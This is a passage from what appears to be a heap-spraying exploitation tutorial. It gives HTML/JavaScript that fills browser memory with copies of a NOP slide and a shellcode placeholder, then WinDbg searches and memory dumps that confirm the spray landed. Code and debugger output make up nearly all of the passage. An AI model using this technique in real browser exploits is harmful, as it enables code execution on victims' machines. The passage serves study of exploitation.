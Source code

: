 Now, I want to place with "shellcode". I Suppose it's size does not exceed 1000 bytes.
```
<html>
<body>
<script language='javascript'>

	size = 0x3E8;  // 1000 bytes
	NopSlide = '';

	var name = unescape('%u6f77%u796f%u7530%u676e');

	for (c = 0; c < size; c++){ 
		NopSlide += unescape('%u9090%u9090');
	}
	NopSlide = NopSlide.substring(0,size - Shellcode.length);

	var memory = new Array();
	for(i = 0; i < 50; i++){
		memory[i] = NopSlide + Shellcode;
	}
    alert("allocation done");
  
</script>
</body>
</html>
```

Find out the specified ASCII strings on our heap.
```
0:014> s -a 0x00000000 L? 7fffffff "wooy0ung"
001bec80  77 6f 6f 79 30 75 6e 67-2d 31 38 37 35 61 37 00  wooy0ung-1875a7.
0323202c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
0323e08c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032561ec  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032a82f4  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032a92fc  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032aa304  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032ab30c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
032ac314  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
......
```

As you see, allocation is not perfect.
```
0:014> d 0323202c-20
0323200c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323201c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323202c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
0323203c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323204c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323205c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323206c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323207c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014> d 0323e08c-20
0323e06c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e07c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e08c  77 6f 6f 79 30 75 6e 67-00 00 90 90 90 90 90 90  wooy0ung........
0323e09c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e0ac  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e0bc  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e0cc  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0323e0dc  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:014> d 032dec4c-20
032dec2c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
032dec3c  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```